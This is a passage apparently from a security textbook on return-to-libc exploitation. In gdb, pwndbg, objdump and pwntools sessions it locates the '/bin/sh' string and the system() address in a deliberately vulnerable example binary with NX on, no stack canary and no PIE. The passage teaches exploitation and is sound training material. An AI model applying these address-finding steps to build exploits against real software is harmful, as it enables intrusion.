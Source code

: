 \begin{lstlisting}
> gdb -q ret2libc -batch -ex "start" -ex "search /bin/sh"
Loaded 113 commands. Type pwndbg [filter] for a list.
Temporary breakpoint 1 at 0x4009e5
ret2libc        0x4a2168 0x68732f6e69622f /* '/bin/sh' */
> 
> gdb -nh -q ret2libc
Reading symbols from ret2libc...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x4009e5
(gdb) r
Starting program: /home/devneal/Security/REFE/textbook/example_code/ret2libc 

Breakpoint 1, 0x00000000004009e5 in main ()
(gdb) info proc mappings 
process 4527
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
            0x400000           0x4ca000    0xca000        0x0 /home/devneal/Security/REFE/textbook/example_code/ret2libc
            0x6c9000           0x6cc000     0x3000    0xc9000 /home/devneal/Security/REFE/textbook/example_code/ret2libc
            0x6cc000           0x6f1000    0x25000        0x0 [heap]
      0x7ffff7ffb000     0x7ffff7ffd000     0x2000        0x0 [vvar]
      0x7ffff7ffd000     0x7ffff7fff000     0x2000        0x0 [vdso]
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]
(gdb) find 0x400000,0x4ca000,"/bin/sh"
0x4a2168
warning: Unable to access 3473 bytes of target memory at 0x4c9270, halting search.
1 pattern found.
(gdb) q
A debugging session is active.

	Inferior 1 [process 4527] will be killed.

Quit anyway? (y or n) y
> 
> objdump -s ret2libc | grep /bin/sh
 4a2160 6974666e 002d6300 2f62696e 2f736800  itfn.-c./bin/sh.
> 
> python
Python 2.7.12 (default, Nov 20 2017, 18:23:56) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> e = ELF("./ret2libc")
[*] '/home/devneal/Security/REFE/textbook/example_code/ret2libc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
>>> hex(e.search("/bin/sh").next())
'0x4a2168'
>>> 
\end{lstlisting}

Each is in agreement: "/bin/sh" is located at \texttt{0x4a2168}. We could
find the location of \texttt{system()} using \texttt{gdb}, but we can actually
find that programmatically as well.

\begin{lstlisting}
> python
Python 2.7.12 (default, Nov 20 2017, 18:23:56) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> e = ELF("./ret2libc")
[*] '/home/devneal/Security/REFE/textbook/example_code/ret2libc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
>>> hex(e.symbols["system"])
'0x40f680'
>>> 
>
\end{lstlisting}

